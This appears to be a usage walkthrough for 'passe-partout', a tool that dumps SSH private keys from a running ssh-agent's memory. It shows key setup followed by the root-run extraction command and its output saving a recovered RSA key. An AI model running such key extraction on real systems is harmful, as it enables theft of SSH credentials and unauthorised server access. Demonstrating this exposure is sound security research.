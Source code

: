 RSA public and private keys generation using password "mysuperpassword"
as password:


```bash
$ ssh-keygen -qN mysuperpassword -t rsa -f /tmp/myrsa.key
```


Overwrite SSHv2 authorized keys access list on server side with the
newly generated public key:


```bash
$ scp /tmp/myrsa.key.pub 192.168.0.1:~/.ssh/authorized_keys2
admin@192.168.0.1's password:
myrsa.key.pub                              100%  393     0.4KB/s   00:00
```


Starting of a new ssh-agent instace:


```bash
$ eval `ssh-agent`
Agent pid 4712
```


Registration of the newly generated private key:


```bash
$ ssh-add /tmp/myrsa.key
Enter passphrase for /tmp/myrsa.key:
Identity added: /tmp/myrsa.key (/tmp/myrsa.key)
```


Starting from now private key is hold in clear inside the ssh-agent
process memory. We can read the clear key by using the key extractor
with root privileges:


```bash
$ sudo ./passe-partout 4712
[sudo] password for jb:
Target has pid 4712
on_signal(17 - SIGCHLD) from 4712
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[X] Valid RSA key found.
[X] Key saved to file id_rsa-0.key
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
done for pid 4712
```
